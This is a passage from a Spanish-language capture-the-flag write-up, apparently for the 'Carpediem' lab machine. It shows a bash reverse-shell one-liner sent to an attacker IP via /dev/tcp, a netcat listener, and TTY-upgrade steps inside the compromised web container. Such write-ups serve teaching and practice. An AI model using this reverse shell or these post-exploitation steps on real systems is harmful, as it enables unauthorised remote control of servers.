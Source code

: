 Veo que se sube e interpreta por lo tanto solo quedaría enviarme una revershell

![Rever](../assets/images-Carpediem/rever2.png)

```bash
bash -c "bash >%26 /dev/tcp/10.10.16.6/443 0>%261"
```
Me pongo en escucha por el puerto 443 y recibo la revershell

![Rever](../assets/images-Carpediem/rever3.png)

Por lo tanto realizo el tratamiento de la TTY para tener una consola totalmente interactiva
```bash
www-data@3c371615b7aa:/var/www/html/portal/uploads$ script /dev/null -c bash 
script /dev/null -c bash
Script started, output log file is '/dev/null'.
www-data@3c371615b7aa:/var/www/html/portal/uploads$ ^Z
zsh: suspended  nc -nlvp 443

❯ stty raw -echo;fg
[1]  + continued  nc -nlvp 443
					   reset xterm
www-data@3c371615b7aa:/var/www/html/portal/uploads$ export TERM=xterm
www-data@3c371615b7aa:/var/www/html/portal/uploads$ stty rows 28 columns 129
```
### [](#header-3)User
Veo que me encuentro en un contenedor, por lo tanto voy a buscar la manera de escapar o si es que encuentro algo interesante

![Contenedor](../assets/images-Carpediem/Contendor.png)
